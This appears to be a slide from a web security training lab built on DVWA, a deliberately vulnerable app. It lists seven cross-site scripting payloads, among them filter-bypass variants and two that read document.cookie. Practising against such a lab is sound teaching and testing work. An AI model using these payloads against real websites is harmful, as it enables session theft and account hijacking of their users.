

DVWA LAB

Vulnerable URL – localhost://dvwa

Payloads –

<script>alert(1)</script>
<body onload=alert(1)>
hello>/opttion></select><body onload=alert("XSS")>
 <scr<script>ipt>alert(document.cookie)</script>
<img src=”#” onerror=alert(1) >
#</select><img src=1 onerror=alert(1)>
<img src=1 onerror=alert(document.cookie)>